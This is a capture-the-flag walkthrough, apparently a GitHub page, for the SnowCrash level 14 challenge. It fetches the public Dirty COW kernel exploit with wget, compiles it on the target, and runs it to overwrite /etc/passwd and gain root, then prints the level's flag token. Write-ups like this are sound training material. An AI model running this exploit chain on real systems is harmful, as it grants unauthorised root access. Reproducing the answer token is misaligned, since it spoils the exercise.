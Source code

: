 # SnowCrash Level14 Guide
This guide will walk you through the process to connect as the `flag14` user.

## Procedure:

1. **Examine your environment**

`uname -a` : Display system informations.
```
Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
```

The linux kernel version 3.2.0-89-generic-pae is vulnerable to dirty cow exploit.

2. **Getting exploit sources**

On client download the exploit source file:
```bash
wget --no-check-certificate https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
```

Copy the file on host:
```bash
scp -P 4242 ./dirty.c level14@<host-ip>:/tmp/dirty.c
```

Compile file on host:
```bash
cd /tmp
gcc -pthread dirty.c -o dirty -lcrypt
```

Run exploit:
```bash
./dirty
[enter new password]
```

In another tty connect as firefart with the new password.
Restore the old passwd file:
```
mv /tmp/passwd.bak /etc/passwd
```

3. **Get the flag**

Switch to user flag14:
```bash
su flag14
```

Get the flag:
```bash
getflag
```

Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
